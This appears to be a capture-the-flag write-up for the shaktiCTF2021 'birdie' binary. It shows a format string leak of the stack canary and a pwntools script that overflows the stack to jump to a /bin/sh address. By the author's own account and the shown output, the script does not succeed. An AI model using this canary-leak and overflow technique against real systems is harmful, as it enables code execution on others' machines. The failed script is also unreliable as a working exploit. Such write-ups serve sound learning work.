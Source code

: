 We are provided a binary called `birdie` and a strong hint that there is a stack canary. Indeed, we can verify the presence of a canary with `checksec`:

```console
root@osboxes:~/Documents/shaktiCTF2021# checksec birdie
[*] '/root/Documents/shaktiCTF2021/birdie'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

If we open the binary in ghidra, a couple things are clear. It is apparent that there is a format string vulnerability (since our input from the first prompt is fed to `printf`) and that there is a `/bin/sh` available within the binary:

<img src="function.png" width=350>


```console
root@osboxes:~/Documents/shaktiCTF2021# ./birdie
Enter your name
%10$p
0xa7024303125
Enter the payload
asdf
```

<img src="binsh.png" width=350>


Here is my attempt at an exploit script. It ended up not working as expected, which I anticipate was due to the presence of null buytes. I tried to url-encode the bytes but this ultimately lead to stack smashing instead of the flag.

```py
from pwn import *

BINARY = './birdie'

# shell address can be found in GDB via 'find "/bin/sh"'
shell = p64(0x400936)

sh = process(BINARY)
print sh.recvline()

# birdie value can be leaked via format string injection on printf
sh.sendline('%15$p')
canary = sh.recvline().decode('utf-8')
canary = int(canary, 16)
log.info('Found canary: {}'.format(canary))
canary = p64(canary)

sh.sendline('A'*72 + canary + shell)

sh.interactive()
```

Here is the output from running the script:

```console
root@osboxes:~/Documents/shaktiCTF2021# python birdie.py 
[+] Starting local process './birdie': pid 2350
Enter your name

[*] Found canary: 16649657875378990336
Enter the payload

[*] Switching to interactive mode
[*] Process './birdie' stopped with exit code 0 (pid 2350)
[*] Got EOF while reading in interactive
$  
```
